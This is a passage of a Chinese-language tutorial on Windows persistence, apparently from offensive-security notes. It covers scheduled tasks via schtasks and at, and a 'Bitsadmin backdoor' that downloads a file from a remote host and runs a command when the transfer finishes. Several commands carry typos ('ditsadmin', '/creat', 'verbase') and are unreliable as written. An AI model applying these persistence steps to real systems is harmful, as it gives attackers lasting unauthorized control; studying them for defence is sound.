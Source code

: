 schtasks命令，创建一个名为test的计划任务每天12:00执行test.bat脚本：

```shell
schtasks /create /tn test /sc DAILY /st 12:00 /tr C:\test.bat /F
# /tn   taskname 以路径/名称形式指定
# /sc   starttime 指定开始时间
# /tr   taskrun  指定在这个计划时间运行的进程路径
# /F    如果指定的任务已经存在，则强制创建任务并抑制警告
```



2、at命令，创建一个周一到周五12:00执行的test.bat的计划任务：

```shell
at 12:00/every:Monday,Tuesday,Wednesday,Thursday,Firday c:\test.bat
```



### Bitsadmin后门

Bitsadmin后台智能传输服务，是一个windows组件，从win7之后操作系统默认自带，它可以利用空闲的带宽在前台或后台异步传输文件，并支持在重新启动计算机或重新连接网络后自动回复文件传输，常用于WindowsUpdate的安装更新，攻击者可以利用它的特性在被控制的计算机上面持久运行。

```shell
bitsadmin /creat [type] DisplayName 创建一个任务
bitsadmin /cancel <job> 删除一个任务
ditsadmin /complete <job> 完成某个任务
ditsadmin /Resume <job> 激活传输队列中的新任务或挂起的任务
bitsadmin /list /allusers /verbase 列出所有任务
bitsadmin /reset /allusers 删除所有任务
bitsadmin /Addfile <job> <RemoteURL> <localName> 给任务添加下载文件
bitsadmin /SetNotifyCmdLine <job> <ProgramName> [ProgramParameters] 设置在任务完成传输
```



bitsadmin 后门创建

1.  创建任务名为：test

    ```
    bitsadmin /create test
    ```

2.  远程文件下载到本地

    ```
    bitsadmin /addfile test http://ip/test.txt "c:\test.txt"
    
    python搭建服务：
    python -m http.server 9999
    ```

3.  文件下载完成执行命令

    ```
    bitsadmin /SetNotifyCmdLine test "%COMSPEC%" "cmd.exe /c calc.exe"
    ```
